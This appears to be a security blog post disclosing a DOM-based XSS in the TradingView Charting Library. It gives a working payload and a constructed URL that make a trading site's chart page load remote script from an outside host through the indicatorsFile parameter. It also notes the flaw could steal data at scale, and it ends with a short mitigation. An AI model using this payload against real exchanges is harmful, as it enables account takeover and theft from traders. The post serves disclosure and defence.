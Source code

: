 ```yaml
---
layout: post
title: "TradingView Charting Library XSS Vulnerablity"
excerpt: "TradingView Charting Library XSS Vulnerablity, high impact"
categories: [Vulnerablity]
comments: true
tag: ['cybersecurity', 'pentesting', 'infosec', 'Vulnerablity', 'xss', 'TradingView']
---
```


## 0x00 Background
TradingView has popular charting libraries which are used in many online trading platforms for stocks or cryptocurrencies. This vulnerability is a fairly new XSS vulnerability. This vulnerability could bypass Cloudflare or other defense mechanism and cause financial losses due to account request forgery or malicious manipulation. We are going to talk about the vuln and the mitigation.

## 0x01 Vulnerability and Attack
Since TradingView's library is widely-used, we can easily find a test target amongst stock exchange or cryptocurrency exchange platforms. Now let's try to trigger the alert dialog.

After a little bit trying and looking at the code, we have the payload.

Payload
```
#disabledFeatures=[]&enabledFeatures=[]&indicatorsFile=http://xss.rocks/xss.js
```

Constructed URL
```
https://www.xxxxx.com/static/charting_library/static/tv-chart.630b704a2b9d0eaf1593.html#disabledFeatures=[]&enabledFeatures=[]&indicatorsFile=http://xss.rocks/xss.js
```

<br>

![alert][1]{:class="post-image center"}


Minimum requited set of parameters: [disabledFeatures, enabledFeatures, indicatorsFile]

After all, it turned out to be easy to understand the vulnerability. Let's look at library.xxxx.js under ```charting_library/static/bundles/```

```javascript
D ? $.getScript(urlParams.indicatorsFile).done(function() {...})
```

![alert][2]{:class="post-image center"}


Looks familiar? I believe that you probably have seen jQuery's ```$.getScript$``` many times either when programming or digging bugs. So the core code for this function is essentially...

![jquery_getscript][3]{:class="post-image center"}

According to the source code, we can dynamically create a script tag and load a remote js file. 

Then, why are ```disabledFeatures``` and ```enabledFeatures``` also needed for the payload? We can tell from the code... that there will be an exception thrown if one of these parameters is not provided.

![two_params][4]{:class="post-image center"}

Therefore, the final payload was the one mentioned before.


## 0x03 Vuln Impact 
As we can see, this XSS vuln is a DOM-based XSS, so it means that it can also bypass browsers' XSS protection. The advantage of DOM-based XSS is that it modifies the DOM “environment” in the victim’s browser used by the original client-side script, which means it won't even go through the service's server end for logging purpose or server-side protection. 

Furthermore, the domain that this XSS is triggered is not separated from the core domain where the sensitive data is contained. So, the exploit is conveniently simple to be extraordinarily malicious lol. For example, think of using $ directly could steal some sensitive data or something advanced there.

If someone is experienced in attacking, then he/she knows how to find targets at scale.


## 0x04 Mitigation
In the file we have seen, ```/charting_library/static/bundles/library.19c99ed5d0307c67f071.js```, hardcode getScript so that it takes no files.

```getScript(urlParams.indicatorsFile)``` --> ```getScript("")```



[1]: {{ "/assets/upload/images/tradingview_xss/alert.png" | absolute_url }}
[2]: {{ "/assets/upload/images/tradingview_xss/indicatorsFile_code.png" | absolute_url }}
[3]: {{ "/assets/upload/images/tradingview_xss/getscript.png" | absolute_url }}
[4]: {{ "/assets/upload/images/tradingview_xss/two_params.png" | absolute_url }}
